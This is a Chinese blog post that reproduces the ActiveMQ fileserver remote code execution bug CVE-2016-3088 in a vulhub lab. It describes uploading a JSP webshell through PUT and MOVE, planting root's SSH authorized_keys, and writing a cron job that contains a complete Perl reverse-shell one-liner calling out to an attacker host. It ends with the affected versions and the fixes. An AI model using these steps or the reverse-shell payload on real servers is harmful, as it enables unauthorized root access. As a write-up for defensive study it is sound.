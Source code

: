 ```yaml
---
layout: post
title: CVE-2016-3088 ActiveMQ 远程代码执行漏洞复现
comments: false
description: ""
keywords: "Vulnerability"
---
```


ActiveMQ 是 Apache 软件基金会下的一个开源消息驱动中间件软件。Jetty 是一个开源的 servlet 容器，它为基于 Java 的 web 容器，例如 JSP 和 servlet 提供运行环境。ActiveMQ 5.0 及以后版本默认集成了jetty。在启动后提供一个监控 ActiveMQ 的 Web 应用。

2016年4月14日，国外安全研究人员 Simon Zuckerbraun 曝光 Apache ActiveMQ Fileserver 存在多个安全漏洞，可使远程攻击者用恶意代码替代Web应用，在受影响系统上执行远程代码（CVE-2016-3088）。

## 前车之鉴

P师傅介绍说了很多技巧：

ActiveMQ 的 web 控制台分三个应用，admin、api 和 fileserver，其中 admin 是管理员页面，api 是接口，fileserver 是储存文件的接口；admin 和 api 都需要登录后才能使用，fileserver 无需登录；

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作；

利用方法：写入webshell，好处是门槛低更方便，但fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；

## 环境搭建

使用的是 vulhub 的docker环境，github：[https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088](https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088)

使用`docker-compose up -d` 直接运行在vps上；

![CVE-2016-3088-1.png](/assets/images/2017-08-27/3436661734.png)

## Webshell

访问fileserver目录并抓包；对错误路径进行`PUT`任意数据，可得到绝对路径；但实际还得看环境，vulhub 的并不能爆出绝对路径，只有登陆后台访问`/admin/test/systemProperties.jsp`拿绝对路径；

PUT上传又只能是fileserver目录，而fileserver目录不解析jsp，这里需要将txt格式的JspWebshell在MOVE到admin或者api路径下；

实际操作：

![CVE-2016-3088-5.png](/assets/images/2017-08-27/1171043018.png)

![CVE-2016-3088-6.png](/assets/images/2017-08-27/1687393665.png)

则绝对路径为：`/opt/apache-activemq-5.11.1/webapps/`

先`PUT`上传Jsp的Webshell到fileserver目录；

![CVE-2016-3088-3.png](/assets/images/2017-08-27/3101799790.png)

确实不解析；

![CVE-2016-3088-4.png](/assets/images/2017-08-27/4157031570.png)

然后`MOVE`到admin目录下来执行；

![CVE-2016-3088-7.png](/assets/images/2017-08-27/417946727.png)

即可GetShell；

![CVE-2016-3088-8.png](/assets/images/2017-08-27/215009608.png)

访问shell是需要登陆的，如果后台修改了默认管理密码（admin/admin），那么gg；

ActiveMQ 5.7.0 或者更低版本，可以直接报错出路径，而且访问不需要登陆后台，具体见知道创宇404实验室PAPER：[https://www.seebug.org/vuldb/ssvid-96268](https://www.seebug.org/vuldb/ssvid-96268)

## SSH 公钥

因为漏洞是可以**上传并移动**的，那么也可以上传**SSH公钥**至服务器，来进行免密钥登陆；

在`.ssh`目录下生成密钥；

```
➜  ls
known_hosts  known_hosts2
➜  ssh-keygen -t rsa 
Generating public/private rsa key pair.
Enter file in which to save the key (/Users/go0s/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /Users/go0s/.ssh/id_rsa.
Your public key has been saved in /Users/go0s/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:BErhvw8WeKwi//qWqfuzljxeBGBDJyog34wWtGtE+C0 go0s@Go0s.local
The key's randomart image is:
+---[RSA 2048]----+
|o+X +..          |
|+= & . .         |
|o.*.*   .        |
|.oE..= .         |
|  o.. * S        |
| .   + o         |
|. ...+=          |
| o .Xo o         |
|  =@*+  .        |
+----[SHA256]-----+
➜  ls
id_rsa       id_rsa.pub   known_hosts  known_hosts2
```

然后上传`id_rsa.pub`到服务器，然后移动到`/root/.ssh/`并重命名为`authorized_keys`；

![CVE-2016-3088-9.png](/assets/images/2017-08-27/76157866.png)

![CVE-2016-3088-10.png](/assets/images/2017-08-27/1478368000.png)

完成之后直接使用`ssh xxx.xxx.xxx.xxx`即可登录服务器；

由于环境搭建在vps的docker中，开始时并没有映射出22端口，而且 vulhub 这个环境中没有ssh服务，这里不倒腾了；

## crontab

利用定时器，自动化弹shell；

注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败；

这里利用perl语言写的反弹到VPS上；

```
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

![CVE-2016-3088-12.png](/assets/images/2017-08-27/3367347132.png)

![CVE-2016-3088-13.png](/assets/images/2017-08-27/219465202.png)

等会即可拿到反弹结果；

![CVE-2016-3088-14.png](/assets/images/2017-08-27/3976889185.png)

由于是root运行的服务，这里才可写crotab，拿到的shell权限也为root；

如果非root启动，此方法同写入SSH一样，gg；

e.g.

crontab格式：

```
minute   hour   day   month   week   command     顺序：分 时 日 月 周 命令
星号（*）：代表所有可能的值；
文件写至`/etc/crontab.d/`中；
具体参考：http://wangchujiang.com/linux-command/c/crontab.html

每1分钟执行一次command：
* * * * * command
```

## 漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（可以在conf/jetty.xml中开启之）；

在5.14.0版本以后，彻底删除了fileserver应用；

## 修复方案

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本；

2、通过移除 conf\jetty.xml 的以下配置来禁用 ActiveMQ Fileserver 功能；

![CVE-2016-3088-11.png](/assets/images/2017-08-27/3545381970.png)

## 参考博文

[https://www.seebug.org/vuldb/ssvid-96268](https://www.seebug.org/vuldb/ssvid-96268)
[https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088](https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088)
